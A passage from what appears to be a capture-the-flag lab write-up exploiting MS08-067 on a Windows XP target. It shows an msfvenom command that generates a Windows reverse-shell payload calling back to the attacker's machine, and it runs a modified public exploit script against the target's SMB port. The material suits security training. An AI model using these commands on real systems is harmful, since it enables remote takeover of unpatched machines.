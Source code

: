 So trying again with a listen on port 443:

`
# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
`

After replacing the payload, let's try option 6 for SP3 English:

`
# python ms08_067_2018.py 10.10.10.4 6 445                                                                                                                                               
#######################################################################
#   MS08-067 Exploit                                                                                                                                                                         
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).                                                                                         
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#                                      
#   Mod in 2018 by Andy Acer:          
#   - Added support for selecting a target port at the command line.
#     It seemed that only 445 was previously supported.
#   - Changed library calls to correctly establish a NetBIOS session for SMB transport        
#   - Changed shellcode handling to allow for variable length shellcode. Just cut and paste                                                                                                  
#     into this source file.                                                                                                                                                                 
#######################################################################                                                                                                                      
                                                                                                                                                                                             
Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
